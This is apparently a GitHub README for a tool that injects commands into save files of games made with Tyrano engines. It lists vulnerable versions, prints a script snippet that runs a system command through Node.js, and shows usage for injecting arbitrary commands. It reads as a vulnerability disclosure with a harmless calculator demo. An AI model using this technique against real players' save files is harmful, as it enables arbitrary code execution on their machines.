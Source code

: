 # TyranoKiller
Code injection tool for Tyrano.  
![main.png](images/main.png)  
CVE-XXXX-XXXX (0day)  

## Vulnerability
All games created with the tools listed below have a vulnerability in the save data file.  
- TyranoBuilder <= 1.87b  
- TyranoBuilderV5 <= 2.00_alpha2  
- TyranoRider <= 2.20  
- TyranoStudio <= 1.10c  
- (TyranoScript <= 4.88)  
- (TyranoScriptV5 <= 5.06e)  

Attackers can use Node.js functionality from JavaScript by embedding HTML tags in save data files, allowing them to execute arbitrary code.
They can also do that using the game development data `index.html`.
The ability to inject into index.html is not included in this tool, but by previewing the game with the following code embedded, it becomes XSS to ACE.  
```html
<script>
require("child_process").exec("calc");
</script>
```
Don't use untrusted files.  

### Demo
![calc.gif](images/calc.gif)  

## Usage
```bash
usage: tyranokiller.py [-h] [-c COMMAND] filename

positional arguments:
  filename              Specify the target sav file name

optional arguments:
  -h, --help            show this help message and exit
  -c COMMAND, --command COMMAND
                        Specify the command to be injected
```
The default is to execute the `calc` command.
The code will only be injected into the first save data.  
